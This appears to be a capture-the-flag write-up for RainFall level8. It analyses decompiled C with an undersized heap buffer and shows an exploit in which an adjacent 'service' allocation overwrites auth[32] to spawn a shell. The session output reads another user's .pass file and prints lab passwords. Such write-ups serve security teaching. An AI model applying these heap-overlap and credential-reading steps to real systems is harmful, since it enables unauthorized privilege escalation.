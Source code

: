# **Level8**

## **Analysis**

**In `main()`:**

```c
    // print the global variables 'auth' 'service'
    printf("%p, %p\n", auth, service);

    // gets the stdin with a limit of 128 characters
    if (fgets(buf, 0x80, stdin) == 0)
        break ;
    
    // Give a value to 'auth' with a limit of 30 characters
    if (strncmp(buf, "auth ", 5) == 0)
    {
        auth = malloc(4);
        if (strlen(buf + 5) <= 30)
            strcpy(auth, buf + 5);
    }

    // free 'auth'
    if (strncmp(buf, "reset", 5) == 0)
        free(auth);
    
    // Give a value to 'service', no limit
    if (strncmp(buf, "service", 6) == 0)
        service = strdup(buf + 7);
    
    // Open shell if the 32nd character of 'auth' isn't Null
    if (strncmp(buf, "login", 5) == 0)
    {
        if (auth[0x20] != 0) // 32
            system("/bin/sh");
        else
            fwrite("Password:\n", 10, 1, stdout);
    }
```

___

## **Exploit**

So we need to create auth and have at least **`32`** characters in it but its limited to **`30`**

But if we create an empty `auth` and then `service`, the 32nd character of `auth` will be in `service`

Solution:
 * Create auth
   * auth
 * Create service with enough characters to change the 32nd one of auth (16)
   * service AAAAAAAAAAAAAAAA
 * Login
   * login


```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service AAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

___

*Password: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9*